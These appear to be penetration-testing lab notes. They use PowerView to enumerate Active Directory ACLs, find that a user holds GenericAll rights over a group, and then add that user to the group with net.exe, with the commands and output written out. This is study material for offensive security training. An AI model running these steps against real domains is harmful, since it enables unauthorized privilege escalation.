 ##### Convert SecurityIdentifier value into a name using PowerView
###### Command: Convert-SidToName _SecurityIdentifier_
```hlt:2
PS C:\Tools> Convert-SidToName S-1-5-21-1987370270-658905905-1781884369-553
CORP\RAS and IAS Servers
```

- RAS and IAS Servers group have _ReadProperty_ access to our user. 

##### Enumerate _ActiveDirectoryRights_=GenericAll and _SecurityIdentifier_ for specific group using PowerView
###### Command: GetObject-Acl -Identity "Group Name" | ? {$_.ActiveDirectoryRights -eq "GenericAll"} | select SecurityIdentifier,ActiveDirectoryRights

```hlt:1
PS C:\Tools> Get-ObjectAcl -Identity "Management Department" | ? {$_.ActiveDirectoryRights -eq "GenericAll"} | select SecurityIdentifier,ActiveDirectoryRights

SecurityIdentifier                            ActiveDirectoryRights
------------------                            ---------------------
S-1-5-21-1987370270-658905905-1781884369-512             GenericAll
S-1-5-21-1987370270-658905905-1781884369-1104            GenericAll
S-1-5-32-548                                             GenericAll
S-1-5-18                                                 GenericAll
S-1-5-21-1987370270-658905905-1781884369-519             GenericAll
```

Convert these SIDs to Names
```hlt:2-6
PS C:\Tools> "S-1-5-21-1987370270-658905905-1781884369-512","S-1-5-21-1987370270-658905905-1781884369-1104","S-1-5-32-548","S-1-5-18","S-1-5-21-1987370270-658905905-1781884369-519" | Convert-SidToName
CORP\Domain Admins
CORP\stephanie
BUILTIN\Account Operators
Local System
CORP\Enterprise Admins
```

Surprisingly stephanie is on this list. 

Using "net.exe" to add ourselves to domain group

```hlt:1
PS C:\Tools> net group "Management Department" stephanie /add /domain
The request will be processed at a domain controller for domain corp.com.

The command completed successfully.
```

Verifying that we were added to the group

```hlt:1,"stephanie"
PS C:\Tools> Get-NetGroup "Management Department" | select member

member
------
{CN=jen,CN=Users,DC=corp,DC=com, CN=stephanie,CN=Users,DC=corp,DC=com}
```
